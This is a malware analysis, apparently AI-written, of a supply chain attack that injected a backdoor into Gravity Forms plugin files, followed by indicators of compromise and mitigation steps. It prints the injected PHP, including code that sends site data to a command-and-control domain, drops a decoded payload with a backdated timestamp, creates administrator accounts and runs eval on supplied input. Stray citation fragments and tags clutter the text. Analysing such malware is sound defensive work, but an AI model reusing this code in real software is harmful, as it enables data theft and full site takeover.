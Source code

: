 Overview of the Malicious Functions in the Gravity Forms Supply Chain Attack
In the July 2025 supply chain attack on Gravity Forms, attackers injected malicious code into the official plugin downloads (versions 2.9.11.1, 2.9.12, and Composer installs of 2.9.11 during July 10-11). The primary affected files were gravityforms/common.php and includes/settings/class-settings.php (with triggers via notification.php). The malware enabled data exfiltration, remote code execution (RCE), unauthorized user creation, and other operations. Below, I'll break down the key malicious functions step by step, based on their behavior, using code excerpts where available. The attack chain starts with initial exfiltration and payload deployment, leading to a persistent backdoor.
1. Initial Trigger and Data Exfiltration (Function: update_entry_detail in gravityforms/common.php)
This function is hooked into the plugin's loading process (via WordPress actions like plugins_loaded), allowing it to activate automatically upon plugin installation or site load without authentication. Its primary role is to collect sensitive site metadata and send it to a command-and-control (C2) server, while also handling responses to deploy further payloads.
Step 1.1: Collection of Site Metadata
The function gathers detailed information about the WordPress installation, including the site URL, name, admin URL, WP and PHP versions, active theme, list of active plugins (JSON-encoded), server uname, user count, and timestamp. This data is packaged into an array for exfiltration.
Code excerpt:
$data = array(  
    'site_url' => get_site_url(),  
    'site_name' => get_bloginfo('name'),  
    'admin_url' => admin_url(),  
    'wp_version' => get_bloginfo('version'),  
    'php_version' => phpversion(),  
    'active_theme' => wp_get_theme()->get('Name'),  
    'active_plugins' => json_encode($plugin_list),  
    'uname' => php_uname(),  
    'users_count' => $user_count,  
    'timestamp' => current_time('mysql')  
);
This step reconnaissance helps attackers identify valuable targets (e.g., high-traffic sites or those with specific plugins for further exploitation).c8cdb23e02af
Step 1.2: Exfiltration via POST Request
The collected data is sent as a blocking POST request to the C2 domain https://gravityapi.org/sites (registered July 8, 2025). The request uses WordPress's wp_remote_post with a 25-second timeout to ensure delivery.
Code excerpt:
$request = wp_remote_post($gf_url, array(  
    'method' => 'POST',  
    'timeout' => 25,  
    'blocking' => true,  
    'body' => $data,  
));
If successful (HTTP 200), the response is processed. This exfiltration occurs unauthenticated, making it stealthy and immediate upon infection.2f24b9d31ce3a40b02
Step 1.3: Payload Download and File Writing
The C2 response is JSON-decoded. If it contains a filename (gf_name) and base64-encoded content (body), the function creates the directory if needed, writes the decoded content to a file (often wp-includes/bookmark-canonical.php to blend in with core WP files), and sets a backdated timestamp (e.g., -2 months) to evade detection by file scanners.
Code excerpt:
if (!is_wp_error($request) && wp_remote_retrieve_response_code($request) == 200) {  
    $response = json_decode(wp_remote_retrieve_body($request), true);  
    if (isset($response['gf_name'])) {  
        $touch_time = filemtime(ABSPATH . "wp-content/plugins/index.php");  
        if ($touch_time === false) {  
            $touch_time = strtotime('-2 months');  
        }  
        $gf_path = ABSPATH . $response['gf_name'];  
        $gf_dir = dirname($gf_path);  
        if (!file_exists($gf_dir)) {  
            mkdir($gf_dir, 0755, true);  
        }  
        if (!file_exists($gf_path)) {  
            file_put_contents($gf_path, base64_decode($response['body']));  
            touch($gf_path, $touch_time);  
        }  
    }  
}
This deploys a secondary payload masquerading as legitimate WP code (e.g., "Content Management Tools"), which includes functions like handle_posts(), handle_media(), and handle_widgets() for RCE via eval on user-supplied input. The chain is __construct() -> init_content_management() -> handle_requests() -> process_request(), allowing unauthenticated access.bd457ede9a0b
2. Backdoor Operations (Function: list_sections in includes/settings/class-settings.php, Triggered via notification.php)
This function acts as the main backdoor, requiring a hardcoded token for authentication. It's called via GET/POST parameters in requests to notification.php, enabling persistent control post-infection. It supports multiple malicious actions via a switch statement.
Step 2.1: Token Validation
The function checks for $_REQUEST['gf_api_token'] matching the hardcoded value Cx3VGSwAHkB9yzIL9Qi48IFHwKm4sQ6Te5odNtBYu6Asb9JX06KYAWmrfPtG1eP3. If invalid, it exits early. This prevents casual discovery while allowing attackers with the token full access.
Code excerpt:
if (!isset($_REQUEST['gf_api_token'])) {  
    return;  
}  
$secret_key = $_REQUEST['gf_api_token'];  
if ($secret_key !== 'Cx3VGSwAHkB9yzIL9Qi48IFHwKm4sQ6Te5odNtBYu6Asb9JX06KYAWmrfPtG1eP3') {  
    return;  
}  
```<grok:render card_id="5f2a64" card_type="citation_card" type="render_inline_citation">
16 </grok:render>
Step 2.2: Action Handling via Switch Cases
Based on a parameter like $gf_action (from request), it executes various operations:
User Creation (cusr): Creates an admin user with supplied username, password, and email, then assigns the 'administrator' role. Outputs JSON success.
Code excerpt:
case 'cusr':  
    $username = $_REQUEST['gf_username'];  
    $password = $_REQUEST['gf_password'];  
    $email = $_REQUEST['gf_email'];  
    $user_id = wp_create_user($username, $password, $email);  
    $user = get_user_by('id', $user_id);  
    $user->set_role('administrator');  
    echo json_encode(array('success' => true, 'user_id' => $user_id));  
    die();
This grants persistent access without needing RCE for login.2e0619c0c385
Remote Code Execution (formula): Decodes base64 input from $_REQUEST['gf_formula'], evaluates it via eval (capturing output with output buffering), and outputs the result. This allows arbitrary PHP execution.
Code excerpt:
case 'formula':  
    $gf_formula = $_REQUEST['gf_formula'];  
    ob_start();  
    eval(base64_decode($gf_formula));  
    $gf_result = ob_get_clean();  
    die($gf_result);
Enables shell-like control, e.g., file uploads, deletions, or further infections.0779696b6098
Other Actions: Includes file uploads (upload_file), user listing/deletion (lusr, dusr), and directory listing (ldir), facilitating reconnaissance and cleanup.
Step 2.3: Additional Behaviors
The malware blocks plugin updates to maintain persistence and may fetch more payloads. Exploitation attempts were observed from IP 193.160.101.6 shortly after disclosure.987bdec72d72
Indicators of Compromise (IOCs)
Domains: gravityapi.org (C2, suspended July 11).
Files: gravityforms/common.php, includes/settings/class-settings.php, wp-includes/bookmark-canonical.php.
Token: Cx3VGSwAHkB9yzIL9Qi48IFHwKm4sQ6Te5odNtBYu6Asb9JX06KYAWmrfPtG1eP3.
Behaviors: Unauthorized POSTs to gravityapi.org/sites, new admin users, or eval-based executions.110902edf43f262934
To mitigate, update to 2.9.13+, scan for IOCs, and restore from pre-July 9 backups if infected.